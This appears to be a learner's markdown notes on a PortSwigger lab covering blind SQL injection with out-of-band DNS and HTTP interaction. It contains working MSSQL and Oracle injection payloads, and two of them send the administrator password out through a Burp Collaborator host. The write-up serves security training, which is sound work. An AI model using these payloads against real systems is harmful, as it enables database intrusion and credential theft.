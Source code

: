 ```yaml
---
tags: ["sqli", "blind sqli"]
---
```


## Blind sqli with out-of-band interaction (OAST)

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## Lab

--> to use collaborator in burp :

--> Goto burp==>burp collaborator client==> Then click `copy to clipboard` and save the subdomain

--> i used this payload :

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//738qc6nzh0x33rtw0rmgq0ka91ft3i.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> i got the requests in collaborator

![](Attachments/Pastedimage20211003141740.png)

--> and we solved the lab !

![](Attachments/Pastedimage20211003141717.png)

---

## Information Gathering

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

--> i used this payload

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.0xy2jvnpf2fow06c9enuataudljc71.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> and i got the password of administrator

![](Attachments/Pastedimage20211003143231.png)

`820sriia4t8wy61gtzxw`

--> and we solved the lab !

![](Attachments/Pastedimage20211003143429.png)
